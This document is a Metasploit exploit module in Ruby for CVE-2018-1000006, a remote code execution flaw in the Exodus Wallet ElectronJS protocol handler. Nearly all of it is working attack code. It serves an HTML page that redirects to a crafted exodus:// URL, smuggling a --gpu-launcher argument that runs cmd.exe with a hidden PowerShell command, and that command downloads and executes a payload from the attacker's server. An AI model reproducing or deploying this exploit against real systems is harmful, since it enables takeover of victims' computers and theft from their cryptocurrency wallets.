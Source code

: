 MSFEXP
------

    ##
    # This module requires Metasploit: https://metasploit.com/download
    # Current source: https://github.com/rapid7/metasploit-framework
    ##

    require 'msf/core/exploit/powershell'

    class MetasploitModule < Msf::Exploit::Remote
      Rank = ManualRanking

      include Msf::Exploit::EXE
      include Msf::Exploit::Powershell
      include Msf::Exploit::Remote::HttpServer::HTML

      def initialize(info = {})
        super(update_info(info,
          'Name'         => 'Exodus Wallet (ElectronJS Framework) remote Code Execution',
          'Description'  => %q(
             This module exploits a Remote Code Execution vulnerability in Exodus Wallet,
             a vulnerability in the ElectronJS Framework protocol handler can be used to
             get arbitrary command execution if the user clicks on a specially crafted URL.
          ),
          'License'      => MSF_LICENSE,
          'Author'       =>
            [
              'Wflki',          # Original exploit author
              'Daniel Teixeira' # MSF module author
            ],
          'DefaultOptions' =>
            {
              'SRVPORT'    => '80',
              'URIPATH'    => '/',
            },
          'References'     =>
            [
              [ 'EDB', '43899' ],
              [ 'BID', '102796' ],
              [ 'CVE', '2018-1000006' ],
            ],
          'Platform'       => 'win',
          'Targets'        =>
            [
              ['PSH (Binary)', {
                'Platform' => 'win',
                'Arch' => [ARCH_X86, ARCH_X64]
              }]
            ],
          'DefaultTarget'  => 0,
          'DisclosureDate' => 'Jan 25 2018'
        ))

      register_advanced_options(
        [
          OptBool.new('PSH-Proxy', [ true,  'PSH - Use the system proxy', true ]),
        ], self.class
      )
      end

      def gen_psh(url)
          ignore_cert = Rex::Powershell::PshMethods.ignore_ssl_certificate if ssl

          download_string = datastore['PSH-Proxy'] ? (Rex::Powershell::PshMethods.proxy_aware_download_and_exec_string(url)) : (Rex::Powershell::PshMethods.download_and_exec_string(url))

          download_and_run = "#{ignore_cert}#{download_string}"

          return generate_psh_command_line(noprofile: true, windowstyle: 'hidden', command: download_and_run)
      end

      def serve_payload(cli)
       data = cmd_psh_payload(payload.encoded,
          payload_instance.arch.first,
          remove_comspec: true,
          exec_in_place: true
        )

        print_status("Delivering Payload")
        send_response_html(cli, data, 'Content-Type' => 'application/octet-stream')
      end

      def serve_page(cli)
        psh = gen_psh("#{get_uri}payload")
        psh_escaped = psh.gsub("\\","\\\\\\\\").gsub("'","\\\\'")
        val = rand_text_alpha(5)

        html = %Q|<html>
    <!doctype html>
    <script>
      window.location = 'exodus://#{val}" --gpu-launcher="cmd.exe /k #{psh_escaped}" --#{val}='
    </script>
    </html>
    |
        send_response_html(cli, html)
      end

      def on_request_uri(cli, request)
        case request.uri
        when /payload$/
          serve_payload(cli)
        else
          serve_page(cli)
        end
      end

    end